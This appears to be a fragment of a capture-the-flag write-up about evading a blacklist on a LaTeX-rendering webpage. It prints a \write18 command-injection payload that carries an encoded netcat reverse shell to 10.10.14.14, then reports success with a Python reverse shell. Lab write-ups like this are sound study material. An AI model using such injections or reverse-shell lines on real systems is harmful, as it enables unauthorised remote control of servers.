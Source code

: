 it doesn't block it when its encoded but at the same time it doesn't decode it.

![final-webpage-black-list-b64](final-webpage-black-list-b64.PNG)

This will run a system cmd then pipe the output to base64 and encode it to meow.txt. Creating a bash script with rm nc reserveshell didn't yieeld results. Ill try php 

![final-webpage3](final-webpage3.PNG)

```
\immediate\write18{echo "rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.14+9080+>/tmp/f" < meow.sh|base64 < meow.sh}
```

# python reverse shell -- success
